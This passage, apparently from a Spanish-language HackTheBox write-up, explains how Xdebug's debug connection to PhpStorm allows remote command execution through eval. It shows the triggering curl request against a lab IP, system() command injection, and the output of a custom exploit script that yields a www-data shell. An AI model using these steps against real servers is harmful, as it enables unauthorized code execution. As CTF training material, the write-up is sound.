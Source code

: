 <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/static/355google_xdebug_foundExploit.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

* [https://github.com/nqxcode/xdebug-exploit](https://github.com/nqxcode/xdebug-exploit)

💢 ***Extensión de PHP que proporciona la <u>capacidad de depurar código y errores</u>***. [Xdebug](https://es.wikipedia.org/wiki/Xdebug)

Buscando, nos damos cuenta de que existen varios vectores de ataque contra `xdebug` **asociados** a [phpstorm](https://www.jetbrains.com/es-es/phpstorm/), que es un **entorno de desarrollo integrado (IDE)** para `PHP`.

* [The Exploits of Xdebug in PhpStorm](https://medium.com/@knownsec404team/the-exploits-of-xdebug-in-phpstorm-2ca140e91dc).
* [Xdebug: A Tiny Attack Surface](https://paper.seebug.org/397/).

Uno de ellos (y el que vemos en el exploit de GitHub) es basado en la función [eval](https://www.php.net/manual/es/function.eval.php) de `PHP`, ya que permite ejecución remota de comandos 😈

El tema es que `PHPStorm` crea los procesos para empezar a debuggear, peeeero también hace que los puertos `9000` (también lo vemos en el exploit de GitHub), **10137** y **20080** estén en escucha esperando una conexión. Después para generar esa conexión y empezar a debuggear, debemos usar `XDEBUG_SESSION=PHPSTORM`. Esto finalmente hace que `xdebug` se conecte al puerto `9000` donde previamente `PHPStorm` estaba escuchando y pues ya tendríamos acceso a todas las funcionalidades de un debug, que en este caso junto a la función `eval` seria obtener un **RCE** bien lindo.

Los pasos para la explotación serian estos:

* Ejecutamos exploit, él genera la escucha sobre el puerto `9000`.
* Hacemos la petición para crear la conexión:

  ```bash
  ❱ curl http://172.20.0.10/info.php?XDEBUG_SESSION_START=phpstorm
  ```

* Esa petición establece la conexión con el puerto `9000` y ya se nos mostraría una FakeShell en la que si queremos ejecutar comandos debemos hacer:

  ```php
  >> system("<comando>");  // U otras maneras (exec, shell_exec...)
  ```

Decidí implementarle varias cosas al script para generar todos los pasos desde él, así lo único que debemos hacer es ejecutarlo y ya obtendríamos la **FakeShell**, este sería el resultado:

> [xdebug_rce.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/static/xdebug_rce.py)

```bash
❱ python3 xdebug_rce.py 

FakeShell (RCE) explotando extensión XDebug 2.6.0 en PHP

xdeBUG ~> whoami
www-data
xdeBUG ~> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
xdeBUG ~> pwd
/var/www/html
```
